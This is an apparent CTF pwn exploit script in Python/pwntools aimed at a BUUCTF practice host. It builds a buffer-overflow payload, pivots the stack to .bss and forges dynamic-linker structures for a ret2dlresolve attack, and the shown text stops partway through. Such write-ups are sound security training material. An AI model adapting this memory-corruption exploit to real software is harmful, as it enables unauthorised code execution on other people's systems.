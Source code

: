 exp:

```bash
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='i386'

p=remote('node4.buuoj.cn',27376)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p)
    pause()


bss=0x0804A060
lea_ret=0x08048977
inc_ebp=0x08048434

read_plt=0x08048470
read_got=elf.got['read']
leak('read_got',read_got)

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

base_stage = elf.bss() + 0x420
payload = 'a'*0x3A + p32(elf.bss()+0x420 +4)


sa('Give your description : ',payload)
fake_sym_addr = base_stage + 24
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
st_name = fake_sym_addr + 0x10 - dynstr
fake_read_sym = flat([st_name, 0, 0, 0x12])
index_offset = base_stage + 16 - rel_plt
r_info = (index_dynsym << 8) | 0x7 
```